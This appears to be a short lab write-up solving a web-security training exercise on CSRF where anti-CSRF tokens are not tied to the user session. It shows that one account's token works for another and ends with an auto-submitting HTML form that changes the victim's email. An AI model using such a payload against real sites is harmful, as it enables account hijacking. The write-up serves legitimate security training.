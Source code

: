 <img width="1058" height="447" alt="image" src="https://github.com/user-attachments/assets/461b7061-89ba-43ad-81d6-3d82a4c64247" />Title: CSRF where token is not tied to user session
Level: PRACTITIONER
Desc:  This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:
    wiener:peter
    carlos:montoya

# Walkthrough: 
I can't make request without csrf token: 
<img width="1058" height="447" alt="image" src="https://github.com/user-attachments/assets/f1e9e586-3862-460d-8ae0-3a70eb9f056d" />

But, now I have token for wiener user: `csrf=e6Kha15MBzK6x5fSzcUomjhD7LgbypYK`
Maybe it is possible to use the same token for user carlos


<img width="1041" height="480" alt="image" src="https://github.com/user-attachments/assets/8e3e5790-51ee-4841-8a42-1b1f8ccd99bd" />
It works.

Now, the same paylaod as always, but with token from wiener: 
```
<form method="POST" action="https://0a4300fd04417416815743bd00c200b8.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test31@normal-user.net">
    <input type="hidden" name="csrf" value="16puCALzTg3sTTSWUHdeqevDG7J0HRkt">
</form>
<script>
    document.forms[0].submit();
</script>
```
